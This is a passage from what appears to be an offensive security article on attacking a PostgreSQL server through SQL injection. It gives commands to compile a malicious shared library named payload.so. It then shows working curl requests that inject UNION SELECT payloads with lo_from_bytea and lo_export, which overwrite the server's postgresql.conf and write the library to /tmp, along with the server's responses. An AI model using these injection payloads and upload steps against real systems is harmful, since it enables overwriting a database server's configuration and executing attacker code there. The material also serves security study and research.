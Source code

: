 Before compilation, we must install proper PostgreSQL development packages
for the correct major version, 13 in our case:

</PRE>
```console
$ sudo apt install postgresql-13 postgresql-server-dev-13 -y
```
<PRE>


The code can be compiled with gcc with the following command:
</PRE>
```console
$ gcc \
-I$(pg_config --includedir-server) \
-shared \
-fPIC \
-nostartfiles \
-o payload.so \
payload.c
```
<PRE>


---[ 4.3 - Uploading the config and library to the server

With the updated config file and compiled library on our hands, it is time
to upload and overwrite everything on the target DBMS host.

Uploading and replacing the postgresql.conf file:

</PRE>
```console
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337,CAST((SELECT lo_from_bytea(3331333337, decode('$(base64 -w 0 postgresql_new.conf)', 'base64'))) AS text)"
[
    {"id":1337,"text":"3331333337"}
]

$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337,CAST((SELECT lo_export(3331333337, '/etc/postgresql/13/main/postgresql.conf')) AS text)"
[{"id":1337,"text":"1"}]
```
<PRE>


Uploading the malicious .so file:

</PRE>
```console
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337,CAST((SELECT lo_from_bytea(33313333337, decode('$(base64 -w 0 payload.so)', 'base64'))) AS text)"
[
    {"id":1337,"text":"33313333337"}
]

$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337,CAST((SELECT lo_export(33313333337, '/tmp/payload.so')) AS text)"
[{"id":1337,"text":"1"}]
```
<PRE>
